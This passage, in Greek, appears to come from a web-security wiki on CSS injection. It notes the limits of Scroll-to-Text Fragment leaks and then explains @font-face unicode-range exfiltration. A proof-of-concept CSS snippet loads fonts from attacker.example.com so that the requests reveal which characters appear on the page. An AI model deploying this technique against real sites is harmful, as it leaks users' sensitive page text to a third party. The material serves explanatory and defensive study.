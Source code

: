 Για την μείωση του κινδύνου, θα πρέπει να σημειωθούν τα εξής:

1. **Περιορισμένη Αντιστοίχιση STTF**: Το Scroll-to-text Fragment (STTF) έχει σχεδιαστεί για να ταιριάζει μόνο σε λέξεις ή προτάσεις, περιορίζοντας έτσι την ικανότητά του να διαρρέει τυχαία μυστικά ή tokens.
2. **Περιορισμός σε Κορυφαία Επίπεδα Περιβάλλοντα Πλοήγησης**: Το STTF λειτουργεί αποκλειστικά σε κορυφαία επίπεδα περιβάλλοντα πλοήγησης και δεν λειτουργεί εντός iframes, καθιστώντας οποιαδήποτε προσπάθεια εκμετάλλευσης πιο εμφανή στον χρήστη.
3. **Αναγκαιότητα Ενεργοποίησης από τον Χρήστη**: Το STTF απαιτεί μια χειρονομία ενεργοποίησης από τον χρήστη για να λειτουργήσει, πράγμα που σημαίνει ότι οι εκμεταλλεύσεις είναι εφικτές μόνο μέσω πλοηγήσεων που ξεκινούν οι χρήστες. Αυτή η απαίτηση μειώνει σημαντικά τον κίνδυνο αυτοματοποιημένων επιθέσεων χωρίς αλληλεπίδραση του χρήστη. Παρ' όλα αυτά, ο συγγραφέας της ανάρτησης επισημαίνει συγκεκριμένες συνθήκες και παρακάμψεις (π.χ. κοινωνική μηχανική, αλληλεπίδραση με διαδεδομένες επεκτάσεις προγράμματος περιήγησης) που μπορεί να διευκολύνουν την αυτοματοποίηση της επίθεσης.

Η επίγνωση αυτών των μηχανισμών και των πιθανών ευπαθειών είναι το κλειδί για τη διατήρηση της ασφάλειας του ιστού και την προστασία από τέτοιες εκμεταλλευτικές τακτικές.

Για περισσότερες πληροφορίες, ελέγξτε την αρχική αναφορά: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

Μπορείτε να ελέγξετε μια [**εκμετάλλευση χρησιμοποιώντας αυτή την τεχνική για ένα CTF εδώ**](https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb).

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

Μπορείτε να καθορίσετε **εξωτερικές γραμματοσειρές για συγκεκριμένες τιμές unicode** που θα συλλέγονται **μόνο εάν αυτές οι τιμές unicode είναι παρούσες** στη σελίδα. Για παράδειγμα:
```html
<style>
@font-face {
font-family: poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range: U+0041;
}
@font-face {
font-family: poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range: U+0042;
}
@font-face {
font-family: poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range: U+0043;
}
#sensitive-information {
font-family: poc;
}
</style>

<p id="sensitive-information">AB</p>
htm
```
Όταν αποκτάτε πρόσβαση σε αυτή τη σελίδα, το Chrome και το Firefox ανακτούν "?A" και "?B" επειδή ο κόμβος κειμένου της ευαίσθητης πληροφορίας περιέχει τους χαρακτήρες "A" και "B". Αλλά το Chrome και το Firefox δεν ανακτούν "?C" επειδή δεν περιέχει "C". Αυτό σημαίνει ότι έχουμε μπορέσει να διαβάσουμε "A" και "B".
